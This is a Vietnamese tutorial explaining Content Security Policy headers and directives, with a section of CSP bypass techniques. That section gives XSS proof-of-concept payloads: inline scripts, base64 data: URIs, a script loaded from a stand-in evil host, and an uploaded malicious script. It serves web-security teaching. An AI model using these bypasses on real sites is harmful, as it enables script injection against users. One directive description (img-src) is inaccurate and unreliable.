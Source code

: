 
# Content Security Policy
# I.Tổng quan.
## 1. khái niệm CSP.
- Content Security Policy (CSP) là biện pháp bảo mật thiết yếu để bảo vệ các ứng dụng web khỏi một số loại tấn công nhất định. Bằng cách xác định các quy tắc nghiêm ngặt về tài nguyên mà trình duyệt có thể tải, CSP hạn chế các vectơ tấn công tiềm ẩn.
- Content Security Policy (CSP) biện pháp bảo vệ bổ sung giúp phát hiện và hạn chế một số cuộc tấn công từ phía máy khách, chẳng hạn như Cross Site Scripting (XSS) , clickjacking và chèn nội dung.
## 2.hoạt động CSP.
- CSP (hay Content-Security-Policy) thực chất là một header nằm trên request khi được gửi đến một server nào đó.Để enable CSP, chúng ta chỉ cần cấu hình cho server của chúng ta trả về Content-Security-Policy HTTP headers.Để xem danh sách các thẻ policy đầy đủ bạn có thể xem tại Content-Security-Policy header Một cách khác chúng ta có thể sử dụng thông qua thẻ <meta>. Ví dụ: <meta http-equiv=”Content-Security-Policy” content=”default-src ‘self’; img-src https://*; child-src ‘none’;”>
## 3.Một số chính sách của CSP.

### Các chỉ thị này xác định các nguồn được ủy quyền cho các tài nguyên HTML khác nhau.

- ```default-src```  Nguồn mặc định nếu không có chỉ thị nào khác được xác định.
- ```script-src```  Nguồn hợp lệ cho các tập lệnh JavaScript và WebAssembly.
- ```script-src-elem```  Nguồn hợp lệ cho ```<script>```thẻ. Nếu không có, script-srcsẽ được sử dụng.
- ```frame-src``` Nguồn hợp lệ cho ```<frame>```và ```<iframe>```.
- ```img-src```  Nguồn hợp lệ cho ```<object>```, ```<embed>```và ```<applet>```.
- ```style-src```  Nguồn hợp lệ cho bảng định kiểu.
- ```font-src```  Nguồn phông chữ hợp lệ

### Một số chỉ thị không liên quan đến việc khôi phục tài nguyên nhưng bổ sung thêm các biện pháp kiểm soát bảo mật

- ```sandbox``` : Kích hoạt một hộp cát để cô lập nội dung nhất định (như đối với ```<iframe>```).
- ```require-trusted-types-for``` : Áp dụng 'các loại đáng tin cậy' để hạn chế các cuộc tấn công XSS dựa trên DOM .
- ```trusted-types``` : Xác định danh sách trắng 'Loại đáng tin cậy' để ngăn chặn việc thực thi dữ liệu giả mạo.
- ```upgrade-insecure-requests``` : Tự động chuyển đổi yêu cầu HTTP sang HTTPS. Hữu ích cho việc hiện đại hóa một trang web có nhiều URL cũ.
- ```frame-ancestors``` : Hạn chế các nguồn được phép cho các phần tử ```<frame>```, ```<iframe>```, ```<object>```, ```<embed>``` và ```<applet>```
- ```form-action``` : Kiểm soát các URL được phép gửi biểu mẫu.
- ```base-uri``` : Hạn chế các nguồn hợp lệ cho ```<base>``` thẻ.

## 4.bỏ qua các chính sách CSP.
- Xác thực JavaScript không an toàn trong dòng : ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';```
  + payload :  ```<script>alert(1);</script>```
- Ủy quyền đánh giá không an toàn :  ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:; ```
 + payload :  ``` <script src="data:;base64, YWxlcnQoMSk="></script>```
- Sử dụng ký tự đại diện trong script-src :  ```Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *; ```
  + payload :  ``` <script src="https://evil.vaadata.at"></script>  ```
                 ```<script src="data:;base64, YWxlcnQoMSk="></script> ```
- Không có chỉ thị object-src và default-src :  ```Content-Security-Policy: script-src ‘self’; img-src ‘self’; img-src 'self’;```
  + payload : ```<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>```
- Khai thác điểm cuối JSONP được ủy quyền :
- 
  **```Content-Security-Policy: default-src 'none';```
  ```script-src https://hello.vaadata.com/test.js ```
```https://accounts.google.com/o/oauth2/revoke;```**
- Bỏ qua CSP thông qua việc tải tệp lên : ```Content-Security-Policy: default-src 'self'```
  + payload : ```<script src="/upload/evil-script.js"></script>```
